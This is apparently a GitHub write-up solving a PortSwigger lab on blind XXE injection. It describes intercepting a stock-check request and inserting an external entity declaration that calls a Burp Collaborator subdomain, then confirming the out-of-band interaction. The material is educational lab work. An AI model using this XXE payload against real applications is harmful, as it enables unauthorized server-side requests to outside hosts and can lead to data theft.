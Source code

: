 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/7d5917c5-32bc-4a0e-98e2-36961716491d)

## Solution :

Visit a product page, click "Check stock" and intercept the resulting POST request.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5b04641d-eeaa-40f0-b282-770b4b30319b)

Insert the following external entity definition in between the XML declaration and the stockCheck element.Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated And Replace the productId number ``` &xxe;```

```xml
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b676fa97-fc10-4b37-800b-14897d1f260f)

Go to the Collaborator tab, and click `"Poll now"`. If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a4df85b7-8c8b-43eb-9883-9e9f2f028818)

Lab solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/492d137c-6ad6-4501-af84-6a21fbf826d2)


